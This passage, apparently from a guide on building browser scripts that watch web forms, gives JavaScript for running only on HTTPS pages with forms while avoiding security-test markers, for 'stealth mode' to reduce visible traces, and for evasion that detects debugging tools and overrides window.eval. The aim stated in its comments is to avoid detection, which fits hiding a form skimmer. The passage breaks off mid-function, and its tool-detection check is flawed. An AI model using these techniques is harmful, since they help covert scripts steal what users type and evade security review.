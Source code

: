 ### 3. Context-Aware Execution

```javascript
// Only execute in specific contexts to avoid detection
const shouldExecute = () => {
  return (
    document.forms.length > 0 &&
    !document.querySelector('meta[name="security-test"]') &&
    window.location.protocol === 'https:'
  );
};

if (shouldExecute()) {
  // monitoring code
}
```

### 4. Stealth Mode

```javascript
// Reduce visibility by minimizing DOM changes
const stealthMode = {
  useMutationObserver: false,
  minimizeDOMChanges: true,
  usePassiveListeners: true,
  avoidConsoleLogs: true
};
```

### 5. Evasion Techniques

```javascript
// Implement various evasion techniques
const evasionTechniques = {
  // Detect and bypass common security tools
  detectSecurityTools: () => {
    return (
      window.Firebug ||
      window.console.profiles ||
      window.console.clear ||
      window.console.debug ||
      window.console.dir ||
      window.console.dirxml ||
      window.console.exception ||
      window.console.group ||
      window.console.groupCollapsed ||
      window.console.groupEnd ||
      window.console.info ||
      window.console.log ||
      window.console.profile ||
      window.console.profileEnd ||
      window.console.table ||
      window.console.time ||
      window.console.timeEnd ||
      window.console.timeStamp ||
      window.console.trace ||
      window.console.warn
    );
  },
  
  // Detect and bypass common anti-debugging techniques
  bypassAntiDebugging: () => {
    // Override debugger statement
    const originalEval = window.eval;
    window.eval = function(code) {
```